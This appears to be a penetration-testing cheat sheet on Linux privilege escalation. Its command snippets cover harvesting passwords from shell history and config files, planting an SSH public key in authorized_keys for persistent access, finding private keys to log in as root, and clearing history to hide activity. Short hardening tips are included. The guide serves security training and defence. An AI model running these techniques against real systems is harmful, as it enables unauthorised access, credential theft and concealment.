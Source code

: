 # **SSH Keys, History Files & Config Files - Privilege Escalation Guide**

## **1. Credentials in History Files**
### **Common Locations**
```bash
~/.bash_history
~/.nano_history
~/.mysql_history
~/.lesshst
~/.viminfo
```

### **Exploitation**
```bash
# Check all history files
cat ~/.*history | grep -E "pass|user|root|ssh|su|sudo"

# Example finding:
mysql -h somehost.local -uroot -ppassword123  # From .bash_history
```

### **Mitigation**
```bash
# Clear your history
history -c && rm ~/.*history

# Disable history logging temporarily
unset HISTFILE
```

## **2. Config Files with Hardcoded Credentials**
### **Common Files**
```bash
/etc/openvpn/auth.txt
~/myvpn.ovpn
~/.ssh/config
/etc/mysql/my.cnf
~/.*rc files
```

### **Example Exploit**
```bash
cat /etc/openvpn/auth.txt
# Output:
root
password123

su root  # Use found credentials
```

### **Protection**
```bash
chmod 600 sensitive_configs  # Restrict access
```

## **3. SSH Key Exploitation**
### **A. Authorized Keys Attack**
```bash
# Generate key pair on attacker machine
ssh-keygen -t rsa

# Append public key to target's authorized_keys
echo "ssh-rsa AAAAB3..." >> ~/.ssh/authorized_keys

# SSH in without password
ssh user@target -oHostKeyAlgorithms=+ssh-rsa
```

### **B. Private Key Discovery**
```bash
# Search for private keys
find / -name "id_rsa*" -o -name "*.pem" 2>/dev/null

# Use found key
chmod 600 found_key
ssh -i found_key root@target
```

### **Example Private Key Exploit**
```bash
-----BEGIN RSA PRIVATE KEY-----
[private key contents]
-----END RSA PRIVATE KEY-----

# Usage:
chmod 600 root_key
ssh root@target -i root_key
```

## **4. Defense Strategies**
### **For System Admins**
```bash
# Secure authorized_keys
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh

# Disable root SSH login
echo "PermitRootLogin no" >> /etc/ssh/sshd_config

# Use SSH certificates instead of keys
```

### **For Penetration Testers**
```bash
# Always check:
grep -r "passw" /etc /opt /home 2>/dev/null
find / -name "*config*" -exec grep -i "pass" {} + 2>/dev/null
```

## **5. Quick Reference Table**
| Technique | Command | Impact |
|-----------|---------|--------|
| History files | `cat ~/.*history` | Find passwords/commands |
| Config files | `find / -name "*config*"` | Discover credentials |
| SSH key planting | `echo pubkey >> authorized_keys` | Persistent access |
| Private key reuse | `ssh -i found_key user@target` | Instant root |

